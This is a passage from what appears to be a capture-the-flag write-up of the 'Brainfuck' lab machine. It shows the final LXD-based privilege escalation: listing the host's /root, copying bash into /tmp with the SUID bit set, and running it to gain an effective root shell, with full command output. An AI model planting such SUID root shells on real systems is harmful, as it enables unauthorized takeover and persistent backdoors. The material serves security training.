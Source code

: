 **Now, we should be able to get the root flag in `/mnt/root/root`:**
```shell
~ # ls -lah /mnt/root/root/
total 32K    
drwx------    4 root     root        4.0K Oct  3  2022 .
drwxr-xr-x   23 root     root        4.0K Sep 15  2022 ..
lrwxrwxrwx    1 root     root           9 Sep 15  2022 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Oct 22  2015 .bashrc
drwx------    2 root     root        4.0K May  5  2017 .cache
-rw-------    1 root     root          66 Oct  3  2022 .mysql_history
drwxr-xr-x    2 root     root        4.0K Oct  3  2022 .nano
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
-r--------    1 root     root          33 Apr 29  2017 root.txt
```

**But before we do that, I'll copy the Bash shell and set it to SUID sticky bit. So that we have a root shell on the target system:**
```shell
~ # cp /mnt/root/bin/bash /mnt/root/tmp/root_bash
~ # chmod +s /mnt/root/tmp/root_bash 
~ # exit
orestis@brainfuck:~$ ls -lah /tmp/root_bash 
-rwsr-sr-x 1 root root 1014K Jun  4 16:35 /tmp/root_bash
```

```shell
orestis@brainfuck:~$ /tmp/root_bash -p
root_bash-4.3# whoami;hostname;id;ip a
root
brainfuck
uid=1000(orestis) gid=1000(orestis) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare),1000(orestis)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:91:d4 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.17/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:91d4/64 scope global mngtmpaddr dynamic 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:91d4/64 scope link 
       valid_lft forever preferred_lft forever
3: lxdbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether fe:95:02:08:b7:36 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::b4fc:9ff:fe7c:d101/64 scope link 
       valid_lft forever preferred_lft forever
    inet6 fe80::1/64 scope link 
       valid_lft forever preferred_lft forever
5: veth98R2N3@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master lxdbr0 state UP group default qlen 1000
    link/ether fe:95:02:08:b7:36 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::fc95:2ff:fe08:b736/64 scope link 
       valid_lft forever preferred_lft forever
```
